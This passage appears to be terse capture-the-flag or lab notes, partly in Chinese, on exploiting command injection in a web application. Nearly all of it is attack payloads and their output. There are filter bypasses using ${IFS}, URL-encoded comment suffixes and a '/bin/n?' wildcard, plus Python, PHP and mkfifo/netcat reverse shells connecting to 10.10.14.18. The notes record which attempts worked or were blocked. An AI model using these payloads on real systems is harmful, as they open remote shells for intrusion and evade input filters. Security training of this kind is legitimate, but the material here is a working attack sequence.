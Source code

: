 `echo${IFS}/tmp/w.php%20%23`  成功

---
python --version

python${IFS}--version${IFS}%20%23

Python 2.7.15+

---

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python${IFS}-c${IFS}'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'%20%23

403 forbidden

---

php --version

```
PHP 7.3.6-1+ubuntu18.04.1+deb.sury.org+1 (cli) (built: May 31 2019 11:06:48) ( NTS )<br>Copyright (c) 1997-2018 The PHP Group<br>Zend Engine v3.3.6, Copyright (c) 1998-2018 Zend Technologies<br>    with Zend OPcache v7.3.6-1+ubuntu18.04.1+deb.sury.org+1, Copyright (c) 1999-2018, by Zend Technologies<br><br></div><br/>]

php -r '$sock=fsockopen("10.10.14.18",9000);exec("/bin/sh -i <&3 >&3 2>&3");'
。。。
```
---

```
/bin/n?${IFS}-h%20%23

OpenBSD netcat (Debian patchlevel 1.187-1ubuntu0.1)<br>usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]<br>  [-m minttl] [-O length] [-P proxy_username] [-p source_port]<br>  [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]<br>  [-X proxy_protocol] [-x proxy_address[:port]]   [destination] [port]<br>Command Summary:<br>-4Use IPv4<br>-6Use IPv6<br>-bAllow broadcast<br>-CSend CRLF as line-ending<br>-DEnable the debug socket option<br>-dDetach from stdin<br>-FPass socket fd<br>-hThis help text<br>-I lengthTCP receive buffer length<br>-i intervalDelay interval for lines sent, ports scanned<br>-kKeep inbound sockets open for multiple connects<br>-lListen mode, for inbound connects<br>-M ttlOutgoing TTL / Hop Limit<br>-m minttlMinimum incoming TTL / Hop Limit<br>-NShutdown the network socket after EOF on stdin<br>-nSuppress name/port resolutions<br>-O lengthTCP send buffer length<br>-P proxyuserUsername for proxy authe

openbsd版本的nc，没有-e参数的那种
```
---

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

/bin/rm${IFS}/tmp/f;/usr/bin/mkfifo${IFS}/tmp/f;/bin/cat${IFS}/tmp/f|/bin/sh${IFS}-i${IFS}2>&1|/bin/n?${IFS}10.10.14.18${IFS}443${IFS}>/tmp/f%20%23
```
---
